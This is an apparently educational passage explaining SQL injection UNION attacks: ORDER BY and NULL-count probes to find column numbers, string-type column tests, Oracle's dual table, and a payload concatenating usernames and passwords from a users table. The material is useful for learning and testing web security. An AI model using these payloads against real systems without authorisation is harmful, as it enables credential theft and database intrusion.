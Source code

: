 # Retrieving data from other database tables

### Determining the number of columns required in an SQL injection UNION attack

When performing an SQL injection UNION attack, there are two effective methods to determine how many columns are being returned from the original query.

#### Method 1

The first method involves injecting a series of ORDER BY clauses and incrementing the specified column index until an error occurs. For example, assuming the injection point is a quoted string within the WHERE clause of the original query, you would submit:

```sql
' ORDER BY 1--
' ORDER BY 2--
' ORDER BY 3--
etc.
```

When the specified column index exceeds the number of actual columns in the result set, the database returns an error.

#### Method 2

The second method involves submitting a series of UNION SELECT payloads specifying a different number of null values:

```sql
' UNION SELECT NULL--
' UNION SELECT NULL,NULL--
' UNION SELECT NULL,NULL,NULL--
etc.
```

If the number of nulls does not match the number of columns, the database returns an error



### Finding columns with a useful data type in an SQL injection UNION attack

Having already determined the number of required columns, you can probe each column to test whether it can hold string data by submitting a series of UNION SELECT payloads that place a string value into each column in turn.

```sql
' UNION SELECT 'a',NULL,NULL,NULL--
' UNION SELECT NULL,'a',NULL,NULL--
' UNION SELECT NULL,NULL,'a',NULL--
' UNION SELECT NULL,NULL,NULL,'a'--
```

If the data type of a column is not compatible with string data, the injected query will cause a database error. If an error does not occur, and the application's response contains some additional content including the injected string value, then the relevant column is suitable for retrieving string data.

#### The dual table (Oracle)

On Oracle databases, every SELECT statement must specify a table to select FROM. If your UNION SELECT attack does not query from a table, you will still need to include the FROM keyword followed by a valid table name.

There is a built-in table on Oracle called dual which you can use for this purpose. For example: `UNION SELECT 'abc' FROM dual`



### Retrieving multiple values within a single column

You can easily retrieve multiple values together within this single column by concatenating the values together, ideally including a suitable separator to let you distinguish the combined values. For example, on Oracle you could submit the input:

```sql
' UNION SELECT username || '~' || password FROM users--
```

This uses the double-pipe sequence || which is a string concatenation operator on Oracle.

